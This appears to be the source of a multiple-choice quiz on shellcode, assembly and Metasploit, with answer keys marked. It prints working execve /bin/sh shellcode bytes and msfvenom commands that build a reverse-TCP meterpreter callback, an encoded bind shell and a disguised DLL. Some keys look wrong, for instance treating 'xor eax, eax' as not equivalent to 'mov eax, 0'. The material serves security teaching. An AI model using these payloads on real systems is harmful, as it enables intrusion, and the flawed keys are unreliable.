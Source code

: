 MCQ 6: Shellcode
****************

Question 1.Hand Made
--------------------

.. question:: shell
   :nb_prop: 4
   :nb_pos: 1

   | Consider the following shell code:

   .. code-block:: bash

        xor     eax, eax    ;Clearing eax register
        push    eax         ;Pushing NULL bytes
        push    0x68732f2f  ;Pushing //sh
        push    0x6e69622f  ;Pushing /bin
        mov     ebx, esp    ;ebx now has address of /bin//sh
        push    eax         ;Pushing NULL byte
        mov     edx, esp    ;edx now has address of NULL byte
        push    ebx         ;Pushing address of /bin//sh
        mov     ecx, esp    ;ecx now has address of address
                            ;of /bin//sh byte
        mov     al, 11      ;syscall number of execve is 11
        int     0x80        ;Make the system call

        $ nasm -f elf shellcode.nasm
        $ objdump -d -M intel shellcode.o

        shellcode.o:     file format elf32-i386


        Disassembly of section .text:

        00000000 <.text>:
           0:	31 c0                	xor    eax,eax
           2:	50                   	push   eax
           3:	68 2f 2f 73 68       	push   0x68732f2f
           8:	68 2f 62 69 6e       	push   0x6e69622f
           d:	89 e3                	mov    ebx,esp
           f:	50                   	push   eax
          10:	89 e2                	mov    edx,esp
          12:	53                   	push   ebx
          13:	89 e1                	mov    ecx,esp
          15:	b0 0b                	mov    al,0xb
          17:	cd 80                	int    0x80


   | What would the resulting shellcode if this program ?

   .. positive::

      - ``\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69``
        ``\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80``

   .. negative::

      - ``\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1``
        ``\xb0\x0b\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68``

   .. negative::

      - ``\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69``
        ``\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1``


   .. negative::

      - ``\x31\xca\xff\xee\xba\xbe\x73\x68\x68\x2f\x62\x69``
        ``\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80``

Question 2. Assembly
---------------------

..
    TODO have solution

.. question:: ass1
   :nb_prop: 5
   :nb_pos: 1

   |  Which of the following assembly instructions are equivalent to the instruction  ``mov eax, 4`` ?

   .. negative::

      -  ``mov ax, 4``

   .. negative::

      - ``mov al 4``

   .. negative::

      - ``mov ah 4``

   .. negative::

      - ``mov eax, 0x04``

   .. positive::

      - ``mov eax, 0x4``

.. question:: ass2
   :nb_prop: 5
   :nb_pos: 1

   |  Which of the following assembly instructions are equivalent to the instruction ``mov eax, 0`` ?

   .. negative::

      -  ``mov ax, 0``

   .. negative::

      - ``mov al 0``

   .. negative::

      - ``mov ah 0``

   .. negative::

      - ``xor eax, eax``

   .. positive::

      - ``sub eax, eax``

.. question:: ass3
   :nb_prop: 4
   :nb_pos: 1

   |  Which of the following assembly instructions are correctly formatted shellcodes ?

   .. negative::

      .. code-block:: c

            mov eax, 4
            mov ebx, 1
            mov edx, 15
            int 0x80

   .. negative::

      .. code-block:: c

            mov eax, 0xbffff364
            sub eax, 0xbffff368
            xor ebx, eax
            inc ebx
            int 0x80

   .. negative::

      .. code-block:: c

            mov eax, 0xbffff364
            add eax, 0xbf00f368
            xor ebx, eax
            inc ebx
            int 0x80

   .. positive::

      .. code-block:: c

            mov eax, 0xbffff364
            add eax, 0xbff00368
            xor ebx, eax
            inc ebx
            int 0x80

Question 3. Metasploit
-----------------------

..
    From: https://www.duckademy.com/Metasploit-miniquiz1


.. question:: meta1
   :nb_prop: 4
   :nb_pos: 1

   |  Which programming language can be used to write Metasploit scripts for Metasploit 4.x Framework?

   .. negative::

      -  C

   .. negative::

      - Python

   .. negative::

      - C#

   .. positive::

      - Ruby


.. question:: meta2
   :nb_prop: 4
   :nb_pos: 1

   |  Check the true sentence about the following command:

   .. code-block:: c

        msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=8.8.8.8 LPORT=420 -f elf > /root/Downloads/exploits/exploit.elf

   .. negative::

      - This command is used to create a reverse shell for window to host ``8.8.8.8`` on port 420 and return in ``elf`` format directly in the file ``exploit.elf``

   .. negative::

      - This command is used to create a reverse shell for window to host ``8.8.8.8`` on port 420 and return in ``perl`` format

   .. negative::

      -  This command is used to create a bind shell for window to host ``8.8.8.8`` on port 420 and return in ``perl`` format

   .. negative::

      -  This command is used to create a bind shell for linux  to host ``8.8.8.8`` on port 420 and return in ``perl`` format

   .. positive::

      - This command is used to create a reverse shell for linux to host ``8.8.8.8`` on port 420 and return in ``elf`` format directly in the file ``exploit.elf``

.. question:: meta3
   :nb_prop: 4
   :nb_pos: 1

   |  Check the true sentence about the following command:

   .. code-block:: c

        msfvenom -a x86 --platform Windows -p windows/shell/bind_tcp -e x86/shikata_ga_nai -b '\x00' -i 3 -f python --smallest

   .. negative::

      - This command is used to create a reverse shell for window to host ``8.8.8.8`` on port 420 and return in ``elf`` format directly in the file ``exploit.elf``

   .. negative::

      - This command is used to create a bind shell for linux 32 bits system and return in ``elf`` format in the smallest way possible while ignoring bad char ``\x00`` and using shikata_ga_nai encoder.

   .. negative::

      - This command is used to create a reverse shell for window 32 bits system and return in ``python`` format while ignoring bad char ``\x00`` and using shikata_ga_nai encoder.

   .. negative::

      - This command is used to create a reverse shell for linux 32 bits system and return in ``python`` format while ignoring bad char ``\x00`` and using shikata_ga_nai encoder.


   .. negative::

      - This command is used to create a bind shell for window 32 bits system and return in ``python`` format in the smallest way possible  and using shikata_ga_nai encoder.

   .. positive::

      - This command is used to create a bind shell for window 32 bits system and return in ``python`` format in the smallest way possible while ignoring bad char ``\x00`` and using shikata_ga_nai encoder.


.. question:: meta4
   :nb_prop: 2
   :nb_pos: 1

   |  Check the true sentence about the following command:

   .. code-block:: c

        msfvenom -f dll -p windows/exec CMD="C:\windows\system32\calc.exe" -o shell32.dll


   .. negative::

      - This command produce the dynamic link library (``.dll``) that launch the calculator on a linux architecture

   .. positive::

      - This command produce the dynamic link library (``.dll``) that launch the calculator on a window architecture